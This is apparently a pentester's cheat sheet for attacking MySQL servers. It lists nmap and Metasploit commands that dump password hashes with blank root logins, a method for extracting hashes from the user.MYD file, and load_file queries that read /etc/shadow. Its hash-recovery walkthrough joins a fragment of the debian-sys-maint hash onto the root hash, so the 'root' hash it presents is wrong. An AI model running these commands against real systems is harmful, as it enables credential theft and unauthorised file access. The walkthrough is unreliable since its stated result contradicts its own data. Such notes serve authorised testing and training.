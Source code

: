 # MySQL

## Audit MySQL DBMS
with nmap
```bash
--script=mysql-audit
--script-args="mysql-audit.username='[root]',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

## Writable directories
It allows to create files in diferents directories and identify privileges on the root file system
```bash
scanner/mysql/mysql_writable_dirs
```

## Hashes
#### msfconsole
```bash
scanner/mysql/mysql_hashdump
```

#### nmap
```bash
--script=mysql-dump-hashes
--script-args="username='root', password=''"
```

## Queries with nmap
#### nmap
```bash
--script=mysql-query
--script-args="query='select count(*) from books.authors;',username='root', password=''"
```



## List databases and tables
```mysql
show databases;
use <DATABASE>;
show tables;
select * from <TABLE>;
```

## Recovery user pass
Once you're logged in, you can get access to the Mysql **root** password by running `strings` on the following file: `/var/lib/mysql/mysql/user.MYD`.

You should get 2 passwords:
- debian-sys-maint
- root

The `root` password is likely split into two parts:
```
    localhost
root*8246FACFAA5BB9CFDCDEAEDA
6c732c6044b7
root
    127.0.0.1
root
root
    localhost
debian-sys-maint*7B6D59ECDB7B791CF100CA46D0AD911082112351
15DA4067EAA55FBC
```
The first part is `*8246FACFAA5BB9CFDCDEAEDA` and the second part is `15DA4067EAA55FBC`.

Once you put them together, you should get a file containing:
```
root:*8246FACFAA5BB9CFDCDEAEDA15DA4067EAA55FBC
```

### Load protected files
```
select load_file('/var/lib/mysql-files/<File>');
select load_file('/etc/shadow');
```

